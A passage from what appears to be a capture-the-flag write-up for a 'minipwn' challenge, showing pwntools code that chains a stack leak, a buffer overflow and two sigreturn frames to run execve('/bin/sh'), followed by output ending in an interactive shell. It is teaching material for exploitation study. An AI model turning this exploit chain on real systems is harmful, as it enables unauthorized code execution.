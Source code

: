 ```python 

payload  = p64(ret2read)
payload += p64(syscall)

end_of_payload = stack_leak + len(payload) + SIGRET_FRAME_SIZE + len(binsh)

frame = sigreturn_execve(end_of_payload)
frame.rsp = end_of_payload
payload += bytes(frame)
# ^ 'end_of_payload'
payload += binsh
payload += b"\x00" * 8
payload += p64(end_of_payload)

"""
Reset to vuln state
"""
log.info("Resetting the binary to a vulnerable read state and sending 2nd SIGRETURN execve payload")
p.send(p64(ret2read))
pause(SLEEP)
p.send(b"A" * OFFSET + payload)

"""
Send 15 bytes to trigger SIGRETURN again, executing /bin/sh
"""
log.info("Triggering the last SIGRETURN")
pause(SLEEP)
p.send(b'C' * constants.SYS_rt_sigreturn)
p.interactive()

```

That should be all we need. When we run our final payload, we get:


```bash
❯❯ python minipwn.py local
[*] '/home/terrance/Dropbox/Blogs/security/content/post/minipwn/pwn/pwn'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Starting local process './pwn': pid 3587974
[*] Sending initial payload to leak pointers
[!] leaked stack: 0x7ffff9555000
[*] Sending stage 2 which feeds the first SIGRETURN frame
[+] Waiting: Done
[*] Triggering the first SIGRETURN by sending 15 junk bytes
[+] Waiting: Done
[*] Resetting the binary to a vulnerable read state and sending 2nd SIGRETURN execve payload
[+] Waiting: Done
[*] Triggering the last SIGRETURN
[+] Waiting: Done
[*] Switching to interactive mode
$ whoami
terrance
$
```
